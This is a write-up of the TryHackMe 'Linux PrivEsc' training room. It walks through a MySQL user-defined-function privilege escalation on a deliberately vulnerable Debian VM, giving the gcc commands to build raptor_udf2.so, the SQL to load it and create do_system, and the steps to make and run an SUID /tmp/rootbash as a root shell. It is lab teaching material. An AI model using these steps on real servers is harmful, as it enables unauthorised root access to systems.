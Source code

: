 ```yaml
---
description: 'https://tryhackme.com/room/linuxprivesc'
---
```


# \[Writeups\] THM - Linux PrivEsc

## \[Task 1\] - Deploy the Vulnerable Debian VM

**\#2 Run the "id" command. What is the result?**

```text
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

## \[Task 2\] **-** Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions \(UDFs\) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor\_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`  


Connect to the MySQL service as the root user with a blank password:

`mysql -u root`  


Execute the following commands on the MySQL shell to create a User Defined Function \(UDF\) "do\_system" using our compiled exploit:

`use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell \(type **exit** or **\q** and press **Enter**\) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash  
exit`

